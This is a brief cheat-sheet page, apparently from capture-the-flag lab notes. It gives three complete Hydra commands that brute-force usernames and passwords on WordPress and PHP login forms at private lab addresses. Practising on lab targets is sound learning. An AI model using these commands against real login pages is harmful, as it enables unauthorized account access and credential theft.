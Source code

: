 # Hydra

Use [Hydra](https://github.com/vanhauser-thc/thc-hydra) to brute force a login page to find username:

```bash
hydra -L fsocity.dic -p pencer 10.10.175.84 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

Use Hydra to brute force password now we have a username:

```bash
hydra -L Elliot -P fsociety.dic 10.10.23.78 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.23.78%2Fwp-admin%2F&testcookie=1:S=302"
```

Another variation of brute forcing password:

```bash
hydra -t 64 -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!"
```

\
